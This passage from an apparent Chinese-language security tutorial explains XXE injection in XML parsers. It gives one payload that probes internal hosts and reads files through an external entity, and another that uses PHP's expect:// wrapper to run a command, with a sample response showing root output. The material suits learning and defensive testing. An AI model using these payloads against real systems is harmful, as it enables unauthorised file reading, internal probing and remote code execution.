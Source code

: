 除了上面所提到的姿势，xxe 还可以去做内网探测、读文件等，只不过把 URI 改成内网机器地址

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY rabbit SYSTEM "http://127.0.0.1/1.txt" >
]>
<user><firstname>&rabbit;</firstname><lastname>666</lastname></user>
```

如果机器的伪协议可以用 expect 的话，就可以 rce 了，这个漏洞的危害就大大提升了

这种情况很少发生，但有些情况下攻击者能够通过 XXE 执行代码，这主要是由于配置不当/开发内部应用导致的；如果我们足够幸运，并且 PHP expect 模块被加载到了易受攻击的系统或处理 XML 的内部应用程序上，那么我们就可以执行如下的命令：

```
<?xml version="1.0"?>
<!DOCTYPE GVI [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<catalog>
   <core id="test101">
      <author>John, Doe</author>
      <title>I love XML</title>
      <category>Computers</category>
      <price>9.99</price>
      <date>2018-10-01</date>
      <description>&xxe;</description>
   </core>
</catalog>
```

响应：

```
{"error": "no results for description uid=0(root) gid=0(root) groups=0(root)...
```

从 0 开始刨析的原理、常见的利用姿势到这里就说完了......
